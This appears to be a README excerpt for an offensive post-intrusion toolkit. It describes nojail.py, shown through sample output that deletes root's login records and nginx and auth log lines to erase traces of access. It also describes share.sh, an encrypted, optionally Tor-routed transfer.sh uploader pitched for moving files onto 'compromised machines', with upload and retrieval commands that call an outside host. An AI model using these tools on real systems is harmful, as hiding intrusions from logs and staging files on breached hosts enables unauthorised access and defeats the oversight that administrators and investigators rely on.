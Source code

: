 ### Sample output:
```
root@proxy:~# ./nojail.py
[ ] Cleaning logs for root (XXX.XXX.XXX.XXX - domain.com).
[*] 2 entries removed from /var/run/utmp!
[*] 4 entries removed from /var/log/wtmp!
[ ] No entries to remove from /var/log/btmp.
[*] Lastlog set to 2017-01-09 17:12:49 from pts/0 at lns-bzn-XXX-XXX-XXX-XXX-XXX.adsl.proxad.net
[*] 4 lines removed from /var/log/nginx/error.log!
[*] 11 lines removed from /var/log/nginx/access.log!
[*] 4 lines removed from /var/log/auth.log!
```

### Disclaimer
This script is provided without any guarantees.
Don't blame me it doesn't wipe all traces of something you shouldn't have done in the first place.

## share.sh

A portable and secure file sharing script. While freedom fighting, it is generally not possible to scp files into
compromised machines. Alternate ways to upload files are needed, but most sharing services are either too restrictive
or do not provide a way to retrieve files easily from the command line. Security considerations may also prevent
people from uploading sensitive files to cloud providers for fear that they will keep a copy of it forever.

This small and portable bash script relies on [transfer.sh](https://transfer.sh) to solve that problem. It...
* Encrypts files before uploading them (symmetric AES-256-CBC).
* Automatically uses `torify` if it is present on the system for increased anonimity.

The only dependencies needed are `openssl` and either `curl` or `wget`.

### Usage

```
root@proxy:~# ./share.sh ~/file_to_share "My_Secure_Encryption_Key!"
Success! Retrieval command: ./share.sh -r file_to_share "My_Secure_Encryption_Key!" https://transfer.sh/BQPFz/28239
root@proxy:~# ./share.sh -r file_to_share "My_Secure_Encryption_Key!" https://transfer.sh/BQPFz/28239
File retrieved successfully!
```

Additional arguments during the upload allow you to control the maximum number of downloads allowed for the file (`-m`)
and how many days transfer.sh will keep it (`-d`). The default value for both these options is 1.

**Warning**: Do not use spaces in the encryption key, or only the first word of your passphrase will be taken into
account. This is due to the way `getopts` handles arguments (I think). Pull requests are welcome if anyone is interested in
fixing this.
